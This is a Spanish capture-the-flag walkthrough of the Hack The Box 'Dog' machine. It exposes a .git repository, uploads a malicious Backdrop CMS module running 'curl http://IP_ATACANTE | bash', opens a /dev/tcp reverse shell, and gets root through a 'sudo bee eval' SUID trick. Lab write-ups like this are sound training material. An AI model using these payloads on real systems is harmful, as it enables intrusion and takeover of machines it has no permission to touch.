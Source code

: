HTB “Dog” – Walkthrough
Autor: Ju4nC
Fecha: 2025-07-14
Plataforma: Hack The Box
Tipo: Boot-to-Root
Dificultad: Fácil

Índice
Reconocimiento

Enumeración

Explotación inicial

Escalada de privilegios

Captura de flags

Herramientas usadas

Conclusiones

Reconocimiento
IP objetivo: 10.10.11.58

Escaneo de puertos
bash
Copiar
Editar
nmap -p- -n -Pn --min-rate 5000 10.10.11.58 -oG allPorts
Se detectan los puertos abiertos y se guarda el resultado en allPorts. Luego, usando ExtractPorts, copiamos los puertos abiertos al portapapeles.

bash
Copiar
Editar
nmap -p22,80 -sCV 10.10.11.58 -oN targeted
Resultado:

Puerto 22 → SSH

Puerto 80 → HTTP (sitio web)

Presencia de un repositorio .git

Enumeración
Clonamos el repositorio .git expuesto:

bash
Copiar
Editar
python3 GitHack.py http://10.10.11.58/.git/
cd 10.10.11.58
En los archivos descargados, settings.php contiene una contraseña. Además:

bash
Copiar
Editar
grep -r ".htb"
Nos muestra un correo vinculado al sitio, útil para autenticarnos en el login.

Explotación inicial
Dentro del sitio, accedemos a la opción de instalar un nuevo módulo. Podemos subir un .tar.gz.

Crear módulo malicioso:
Descargamos un ejemplo de módulo desde
https://backdropcms.org/project/examples

Editamos el archivo page_example.module:

php
Copiar
Editar
<?php system("curl http://IP_ATACANTE | bash"); ?>
En page_example.info, añadimos:

ini
Copiar
Editar
type = module
Empaquetamos:

bash
Copiar
Editar
tar -zcvf page_example.tar.gz page_example/
Servidor y shell reversa:
Creamos un archivo index.html con el payload:

bash
Copiar
Editar
#!/bin/bash
bash -i >& /dev/tcp/IP_ATACANTE/443 0>&1
Levantamos servicios:

bash
Copiar
Editar
python3 -m http.server 80
nc -nlvp 443
Al subir el módulo, se ejecuta el payload y conseguimos acceso al sistema con una shell reversa.

Escalada de privilegios
Enumeramos usuarios en el sistema. Reutilizamos la contraseña obtenida del .git y accedemos como un usuario válido. Luego:

bash
Copiar
Editar
cat user.txt
Comprobamos permisos sudo:

bash
Copiar
Editar
sudo -l
Tenemos acceso a bee. Ejecutamos:

bash
Copiar
Editar
sudo bee --root=/var/www/html eval "system('chmod u+s /bin/bash');"
bash -p
Obtenemos acceso como root.

Captura de flags
bash
Copiar
Editar
cd /root
cat root.txt
Herramientas usadas
nmap

ExtractPorts

GitHack.py

Backdrop CMS

curl, nc, bash

python3 -m http.server

Conclusiones
Revisar si .git/ está expuesto puede revelar credenciales.

Backdrop CMS permite cargas maliciosas si no se valida el contenido.

Los permisos sudo deben auditarse, especialmente si permiten ejecución de binarios arbitrarios.

Es importante combinar enumeración activa con análisis manual de archivos sensibles.





